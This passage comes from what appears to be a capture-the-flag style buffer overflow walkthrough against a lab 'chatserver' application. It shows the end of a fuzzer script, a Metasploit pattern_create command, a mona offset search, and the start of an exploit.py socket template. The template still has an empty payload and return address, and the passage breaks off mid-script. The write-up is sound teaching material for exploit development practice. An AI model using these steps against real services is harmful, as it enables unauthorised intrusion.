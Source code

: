 ```
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
  string += 100 * "A"
  time.sleep(1)
```

And it reports that the application crashed in 4700 bytes, we re-run the file to ensure that this is the real crash

![8]

Now we should create a pattern of a length of 400 bytes longer that the string that crashed the server, in our case 5100 bytes, so the command should be.

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 5100
```

![9]

We can use the same fuzzer script, to crash the app and find out the offset value, we just need to paste the generated pattern into the string value.

![10]

Re-run the chatserver application in immunity and launch the fuzzer.py exploit

![11]

In immunity debuger we need to search the distance where the application crashed to know the offset

Remember that we are using mona tool as in BufferOverflowPrep room

```
!mona findmsp -distance 5200
```

![12]

Now we have the offset value `4566`

With this value we can create the exploit.py:

```
import socket

ip = "10.10.163,104"
port = 9999

prefix = ""
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
```